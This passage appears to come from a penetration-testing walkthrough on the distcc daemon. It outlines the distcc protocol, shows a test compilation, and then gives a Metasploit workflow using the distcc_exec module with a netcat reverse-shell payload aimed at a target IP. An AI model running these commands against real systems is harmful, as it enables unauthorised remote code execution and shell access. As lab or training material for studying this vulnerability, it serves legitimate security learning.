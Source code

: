 ### Step 2: distcc Configuration Analysis

#### Protocol Understanding
```bash
# distcc protocol basics:
# DIST <version> - Initialize connection
# ARGC <n> - Number of arguments
# ARGV<n> <arg> - Individual arguments
# DOTI - Start of input
# DONE - End of compilation job
```

#### Test Compilation Request
```bash
# Basic compilation test
cat > test.c << 'EOF'
int main() { return 0; }
EOF

# Send to distccd (if working normally)
distcc -j1 <target-ip> gcc test.c -o test
```

---

## 💥 Exploitation Workflow

### Method 1: Metasploit Exploitation

#### Basic Metasploit Usage
```bash
# Start Metasploit
msfconsole

# Use distccd exploit module
use exploit/unix/misc/distcc_exec

# Show options
show options

# Set required parameters
set RHOSTS <target-ip>
set LHOST <your-ip>
set LPORT 4444

# Optional payload selection
set PAYLOAD cmd/unix/reverse_netcat

# Check if target is vulnerable
check

# Execute exploit
exploit
```
